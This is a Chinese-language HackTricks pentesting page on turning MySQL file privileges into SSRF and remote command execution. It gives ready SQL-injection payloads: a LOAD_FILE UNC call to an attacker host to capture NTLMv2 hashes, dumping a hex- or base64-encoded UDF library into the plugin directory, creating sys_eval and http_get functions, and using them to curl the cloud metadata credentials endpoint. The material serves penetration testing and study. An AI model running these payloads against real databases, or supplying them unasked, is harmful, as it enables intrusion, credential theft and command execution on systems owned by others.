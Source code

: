 # MySQL文件权限到SSRF/RCE

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks云 ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 推特 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 YouTube 🎥</strong></a></summary>

* 你在一家**网络安全公司**工作吗？你想在HackTricks中看到你的**公司广告**吗？或者你想获得**PEASS的最新版本或下载PDF格式的HackTricks**吗？请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 发现我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)收藏品[**The PEASS Family**](https://opensea.io/collection/the-peass-family)
* 获取[**官方PEASS和HackTricks周边产品**](https://peass.creator-spring.com)
* **加入**[**💬**](https://emojipedia.org/speech-balloon/) [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram群组**](https://t.me/peass) 或 **关注**我在**Twitter**上的[**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**。**
* **通过向**[**hacktricks repo**](https://github.com/carlospolop/hacktricks) **和**[**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud) **提交PR来分享你的黑客技巧。**

</details>

### 使用LOAD\_FILE/LOAD DATA/LOAD XML进行SSRF

每篇关于SQL Out of Band数据泄露的文章都会使用`LOAD_FILE()`字符串函数进行网络请求。该函数本身根据运行的操作系统和数据库启动时的设置有其自身的限制。

例如，如果未设置`secure_file_priv`全局变量，则[默认值设置为`/var/lib/mysql-files/`](https://dev.mysql.com/doc/mysql-installation-excerpt/5.7/en/linux-installation-rpm.html)，这意味着您只能使用类似`LOAD_FILE('filename')`或`LOAD DATA [LOCAL] INFILE 'filename' INTO TABLE tablename`的函数从`/var/lib/mysql-files/`目录中读取文件。要能够在此目录之外的文件上执行读取操作，必须将`secure_file_priv`选项设置为`""`，这只能通过更新数据库配置文件或将`--secure_file_priv=""`作为启动参数传递给数据库服务来完成。

![](https://ibreak.software/img/using-sql-injection-to-perform-ssrf-xspa-attacks/2.png)

然而，在`secure_file_priv`设置为`""`的情况下，我们应该能够读取系统上的其他文件，假设当前数据库用户的`mysql.user`中设置了文件读取权限和`file_priv`设置为`Y`。然而，能够使用这些函数进行网络调用非常依赖于操作系统。由于这些函数仅用于读取文件，因此只能对Windows主机上的UNC路径进行网络相关调用，因为[Windows的`CreateFileA` API在访问文件时理解UNC命名约定](https://docs.microsoft.com/en-gb/windows/win32/fileio/naming-a-file)。

因此，如果目标数据库运行在Windows机器上，注入查询`x'; SELECT LOAD_FILE('\\\\attackerserver.example.com\\a.txt'); -- //`将导致Windows机器发送NTLMv2哈希值，试图与攻击者控制的`\\attackerserver.example.com`进行身份验证。

这种服务器端请求伪造（SSRF）虽然有用，但仅限于TCP端口445。您无法控制端口号，但可以从具有完全读取权限的共享中读取信息。此外，正如早期研究所示，您可以使用此有限的SSRF功能窃取哈希并将其中继以获得shell，因此它绝对有用。

![](https://ibreak.software/img/using-sql-injection-to-perform-ssrf-xspa-attacks/3.png)

### 使用用户定义函数进行远程命令执行（RCE）

MySQL数据库的另一个很酷的技术是使用外部库文件中的用户定义函数（UDF），如果这些库文件存在于特定位置或系统$PATH中，则可以从MySQL中访问这些函数。

您可以使用SQL注入来**编写一个包含可以进行网络/HTTP请求的用户定义函数的库（`.so`或`.dll`**，具体取决于Linux还是Windows），然后通过其他查询调用该库。

然而，这也有一些限制。根据MySQL的版本（可以通过`select @@version`来确定），可以加载插件的目录受到限制。MySQL v5.0.67以下版本允许从系统路径加载库文件，如果未设置`plugin_dir`变量。现在情况已经改变，较新版本的**`plugin_dir`**变量设置为类似于`/usr/lib/mysql/plugin/`的内容，通常由root拥有。

基本上，要将自定义库加载到MySQL并通过SQL注入调用加载的库中的函数，您需要：

* 通过SQL注入**写入**到**`@@plugin_dir`**指定的位置的能力
* 当前数据库用户的`mysql.user`中设置**`file_priv`**为**`Y`**
* 将**`secure_file_priv`**设置为**`""`**，以便您可以从网络或Web应用程序中的文件上传目录之类的任意位置读取库的原始字节。

假设满足了上述条件，您可以使用**传统方法将**[**流行的MySQL UDF `lib_mysqludf_sys`库**](https://github.com/mysqludf/lib\_mysqludf\_sys) **传输到数据库服务器**。然后，您将能够使用以下语法执行操作系统命令请求，例如`cURL`或`powershell wget`，以执行SSRF：

`x'; SELECT sys_eval('curl http://169.254.169.254/latest/meta-data/iam/security-credentials/'); -- //`

此库中声明了许多其他函数，可以在[此处](https://osandamalith.com/2018/02/11/mysql-udf-exploitation/)进行分析。如果您像我一样懒得动手，可以从`/usr/share/metasploit-framework/data/exploits/mysql/`目录中的metasploit安装中获取此UDF库的副本，并开始使用。

此外，还创建了UDF库，专门用于使数据库能够进行HTTP请求。您可以使用[MySQL用户定义函数（UDF）用于HTTP GET/POST](https://github.com/y-ken/mysql-udf-http)来使数据库进行HTTP请求，使用以下语法：

`x'; SELECT http_get('http://169.254.169.254/latest/meta-data/iam/security-credentials/'); -- //`

您还可以[创建自己的UDF，并在渗透测试后使用它。](https://pure.security/simple-mysql-backdoor-using-user-defined-functions/)
无论如何，您需要将库传输到数据库服务器。您可以通过多种方式实现这一点：

1. 使用MySQL的`hex()`字符串函数或类似的`xxd -p filename.so | tr -d '\n'`将库的内容转换为十六进制格式，然后使用`x'; SELECT unhex(0x1234abcd12abcdef1223.....) into dumpfile '/usr/lib/mysql/plugin/lib_mysqludf_sys.so' -- //`将其转储到`@@plugin_dir`目录中。
2. 或者，将`filename.so`的内容转换为base64，并使用`x';select from_base64("AAAABB....") into dumpfile '/usr/lib/mysql/plugin/lib_mysqludf_sys.so' -- //`。

如果`@@plugin_dir`不可写，则如果版本高于`v5.0.67`，您就没有运气了。否则，将其写入路径中的其他位置，并使用以下方式从该位置加载UDF库：

* 对于`lib_mysqludf_sys`库 - `x';create function sys_eval returns string soname 'lib_mysqludf_sys.so'; -- //`
* 对于`mysql-udf-http`库 - `x';create function http_get returns string soname 'mysql-udf-http.so'; -- //`

![](https://ibreak.software/img/using-sql-injection-to-perform-ssrf-xspa-attacks/4.png)

![](https://ibreak.software/img/using-sql-injection-to-perform-ssrf-xspa-attacks/5.png)

要自动化此过程，您可以使用SQLMap，它支持通过`--udf-inject`选项使用自定义UDF。有关详细信息，请参阅[此处](https://github.com/sqlmapproject/sqlmap/wiki/Usage)。

对于盲注SQL注入，您可以将UDF函数的输出重定向到临时表中，然后从那里读取数据，或者使用[在`sys_eval`或`sys_exec` curl命令中伪造的DNS请求](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band-data-exfiltration)。

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* 您在**网络安全公司**工作吗？您想在HackTricks中看到您的**公司广告**吗？或者您想获得最新版本的PEASS或下载PDF格式的HackTricks吗？请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 发现我们的独家[NFT收藏品**The PEASS Family**](https://opensea.io/collection/the-peass-family)
* 获得[**官方PEASS和HackTricks衣物**](https://peass.creator-spring.com)
* **加入**[**💬**](https://emojipedia.org/speech-balloon/) [**Discord群组**](https://discord.gg/hRep4RUj7f)或[**电报群组**](https://t.me/peass)，或在**Twitter**上**关注**我[**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**。**
* **通过向**[**hacktricks repo**](https://github.com/carlospolop/hacktricks) **和**[**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud) **提交PR来分享您的黑客技巧。**

</details>
